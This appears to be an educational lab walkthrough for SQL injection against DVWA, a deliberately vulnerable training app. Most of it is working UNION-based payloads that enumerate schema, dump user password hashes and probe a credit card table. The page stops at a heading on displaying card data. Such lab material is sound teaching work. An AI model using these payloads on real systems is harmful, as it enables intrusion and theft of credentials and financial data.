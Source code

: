`' or 0=1 union select null, database() #`

`' union select null, database() # `

### Show all tables in the database

**Note**: the page's query is designed to return two fields, so we request `null` as the first field in our injection.

`' and 1=0 union select null, table_name from information_schema.tables #`

### Show all routines in the database

Routines are SQL statements that can be invoked periodically or by some operation. Common routines may include updating a password or creating a new entry in a table tracking login times and IP addresses.

`' and 1=0 union select null, routine_name from information_schema.routines #`

{% include lab_question.html question='According to the DVWA team, who is the best college basketball team?' %}

### Show all databases and tables

`' and 1=0 union select table_name, table_schema from information_schema.tables #`

### Display all the columns fields in the `information_schema` `user` table 

The "surname" field in the rendered HTML result displays the field names of the database.

`' and 1=0 union select null, column_name from information_schema.columns where table_name = 'users' #`

### Display the user, password column 

Display the user, password column field contents in the `information_schema` user table. Reveals MD5 password hashes that then can be googled to reverse.

`' and 1=0 union select user, password from users #`

### Display firstname, lastname, username, password (all on one line)

`' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`

### List all columns in the ‘credit_cards’ table. 

Display all the columns fields in the information_schema ‘credit_cards’ table. 

The "surname" field in the rendered HTML shows these column fields.

`' and 1=0 union select null, column_name from information_schema.columns where table_name = 'credit_cards' #`

### Display credit card information 
